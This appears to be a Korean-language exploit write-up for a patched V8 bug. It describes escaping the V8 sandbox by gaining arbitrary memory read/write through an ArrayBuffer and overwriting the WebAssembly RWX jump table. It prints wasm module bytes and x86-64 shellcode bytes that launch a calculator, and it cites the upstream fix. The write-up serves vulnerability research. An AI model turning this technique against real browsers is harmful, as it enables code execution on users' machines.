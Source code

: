 # Escaping V8 Sandbox via Overwriting WebAssembly Jump Table (Chromium prior to 100.0.4896.60, V8 prior to 10.0.136)

## Setup

- Ubuntu 20.04.6 LTS
- [7c369ec82136ac0afc559aaa0b31614840fcc0a0](https://chromium.googlesource.com/v8/v8.git/+/7c369ec82136ac0afc559aaa0b31614840fcc0a0) (2022.02.15.)

[`sandbox.diff`](./sandbox.diff)는 [[sandbox] Add new Memory Corruption API](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) (2022.05.20.) 와 동일한 패치로, arbitrary address read/write primitive를 simulate하기 위해 memory corruption API를 구현한다.

[`setup.zsh`](./setup.zsh)

## Exploitation

### Full AAR/AAW via ArrayBuffer

V8 sandbox 내부에서 동작하는 arbitrary address read/write primitive가 있으면 `ArrayBuffer`를 이용하여 sandbox 외부에서도 동작하는 full AAR/AAW primitive를 구현할 수 있다.

![image](https://github.com/user-attachments/assets/f7f37832-a66d-49e4-9aad-a01cfd916a90)

![image](https://github.com/user-attachments/assets/4d8dbe33-09c8-4ba4-9d1d-c8399bca3252)

`ArrayBuffer`는 sandbox 내부에 위치하며 element들을 sandbox 외부의 backing store에 저장하는데, 이 주소를 8-byte full pointer로 가지고 있다. Backing store의 주소를 임의의 주소로 덮어쓰면 그 위치로부터 `ArrayBuffer`의 size만큼 값을 읽거나 쓸 수 있다.

### Overwriting WebAssembly jump table with shellcode

Wasm module을 생성하면 module에 정의된 함수들의 코드를 저장하고 실행하기 위해 RWX permission이 설정된 메모리 영역이 할당된다.

![image](https://github.com/user-attachments/assets/3a87d18d-bec4-4c3c-bcf3-4074e9d6ab25)

이 영역의 주소는 Wasm instance가 저장하고 있다.

![image](https://github.com/user-attachments/assets/d14710d6-7dfb-4c88-89d2-9cd1d8312901)

![image](https://github.com/user-attachments/assets/a54265fc-ad76-486d-ba91-4d660b8c77c1)

이 영역의 가장 앞쪽에는 jump table이 생성된다.

![image](https://github.com/user-attachments/assets/d3d5aec6-b5b5-4313-b1c9-811b61659eb5)

Jump table은 함수가 호출되었을 때 execution flow를 어디로 옮겨야 하는지에 대한 정보를 담고 있다. 즉, 함수를 호출하면 jump table에 저장된 코드가 실행된다. AAW primitive를 이용하여 jump table에 저장된 코드를 shellcode로 덮어쓰면 함수를 호출했을 때 shellcode가 실행되도록 할 수 있다.

[`pwn.wat`](./pwn.wat)

```shell
$ ~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
$ python3 wasm.py
[0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x4, 0x1, 0x2, 0x0, 0xb]
```

[`shellcode.py`](./shellcode.py)

```shell
$ python3 shellcode.py
[0x48, 0xc7, 0xc0, 0x6c, 0x63, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x78, 0x63, 0x61, 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0xc7, 0xc0, 0x3a, 0x30, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x50, 0x48, 0x89, 0xe0, 0x48, 0xc7, 0xc3, 0x0, 0x0, 0x0, 0x0, 0x53, 0x50, 0x48, 0x89, 0xe2, 0x48, 0xc7, 0xc0, 0x3b, 0x0, 0x0, 0x0, 0xf, 0x5]
```

[`pwn.js`](./pwn.js)

![image](https://github.com/user-attachments/assets/93232559-c20e-4550-9a49-e286bd683b55)

## Patch

> [[wasm] Ship code protection via memory protection keys](https://chromium.googlesource.com/v8/v8.git/+/17b46632cba261c1eb9c87347a05867079e6a7b9) (2022.02.15.)
